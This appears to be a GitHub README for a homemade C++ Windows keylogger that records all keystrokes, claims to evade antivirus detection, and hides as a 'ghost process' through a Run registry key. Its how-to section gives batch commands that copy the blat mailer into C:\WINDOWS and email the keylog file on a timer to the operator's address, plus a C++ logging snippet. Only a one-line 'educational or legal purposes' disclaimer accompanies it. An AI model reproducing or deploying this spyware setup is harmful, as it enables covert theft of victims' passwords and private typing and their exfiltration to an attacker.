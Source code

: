 
<h1 align="center">
  <br>




                                             
                  ,ad8888ba,                       
                 d8"'    `"8b   aa         aa      
                d8'             88         88      
                88          aaaa88aaaa aaaa88aaaa  
                88          """"88"""" """"88""""  
                Y8,             88         88      
                 Y8a.    .a8P   ""         ""      
                  `"Y8888Y"'                       

                                   
                                  
                                  
                                  
                                  
                           
  <br>
  Remote Keylogger
  <br>
</h1>

<h4 align="center">A simple home made keylogger that send logs to your email
.</h4>


<p align="center">
  <a href="#key-features">Key Features</a> •
  <a href="#how-to-use">How To Use</a> •
  <a href="#credits">Credits</a> •
  <a href="#license">License</a>
</p>

![screenshot](https://www.nevis.net/hubfs/2020/blog/e143-keylogger.gif)

## Key Features

* Autostart on windows login
  - you need to bind the file. Also you can create a windows register file for create an autostart ghost process on windows login.
* FUD not detected by antivirus software. 
* Create a .txt log file, easy to send.
* Log all keys.
* Sent to you a copy of the log periodically to your email.



## How To Use

You can build the project using Visual Studio or DevC++ (free), then you need to insert additional tools in the same foldere of the .exe launcher file, or you can use the prebuild exe in the repository. Check out the code to change the file paths needed for some features

Mandatory: Edit the batch file!

With this code you can create windows register file for create an autostart ghost process on windows login. Change the path with your file name
```batch
Reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /f
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v prova /t REG_SZ /d "C:\\lancio.exe\" /f

```

If you want you can change the directory 

```batch
@COPY blat.exe C:\WINDOWS\blat.exe
@COPY blat.dll C:\WINDOWS\blat.dll
@COPY blat.lib C:\WINDOWS\blat.lib

```

Insert your email server and email address, change the timeout if you want
```batch

@blat -install out.alice.it yourmail@alice.it
cls
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 15
@blat keylogs.txt -to yourmail@alice.it -try 2 -subject Keylog
timeout /t 600

```
You can change the log file name in the main file

```C++
void WriteToLog(LPCSTR text) {
 ofstream logfile;
 logfile.open("keylogs.txt", fstream::app);
 logfile << text;
 logfile.close();
}
```

> **Note**
> You can use temporany email too


## Credits

Russo Giovanni M.

Use it for educational or legal purposes only

## License

MIT

---


